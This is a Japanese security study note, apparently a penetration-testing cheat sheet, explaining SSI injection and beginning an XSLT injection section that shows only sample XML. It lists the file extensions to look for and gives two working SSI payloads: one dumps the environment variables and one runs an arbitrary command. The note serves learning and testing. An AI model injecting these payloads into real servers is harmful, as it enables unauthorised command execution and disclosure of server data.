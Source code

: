 
### 概要
- **SSIインジェクション**とは、攻撃者が**SSIディレクティブをファイルに挿入し、それがWebサーバーによって処理される**ことによって、**悪意あるコードが実行される**脆弱性

発生する可能性がある場面
- Webアプリケーションに脆弱なファイルアップロード機能が存在し、攻撃者がSSIディレクティブを含む悪意あるファイルをWebルートにアップロードできる場合
- Webアプリケーションがユーザー入力をファイルとしてWebルートに保存するような処理を行っている場合

### 確認
- ファイル名が、以下のいずれかの時
- `.shtml`
- `.shtm`
- `.stm`

- 入力されたユーザー名が適切に無害化（サニタイズ）されず、そのままページ内に埋め込まれている場合

### 悪用
ユーザーの入力をそのまま使用している
![](https://i.imgur.com/rBNIjK4.png)

ここの入力欄にSSIインジェクションを仕掛ける

環境編集の取得したい時
```ssi
<!--#printenv -->
```

任意のコマンドを入れる時
```sh
<!--#exec cmd="id" -->
```



# XSLTインジェクション
- XSLT（eXtensible Stylesheet Language Transformation） は、XMLドキュメントを変換するための言語
- 特定のノードを選択したり、XML構造を変更したりすることができる

- XSLT は XML ベースのデータを操作する

これはただのXML
```sh
<?xml version="1.0" encoding="UTF-8"?>
<fruits>
    <fruit>
        <name>Apple</name>
        <color>Red</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Banana</name>
        <color>Yellow</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Strawberry</name>
        <color>Red</color>
        <size>Small</size>
    </fruit>
</fruits>
```
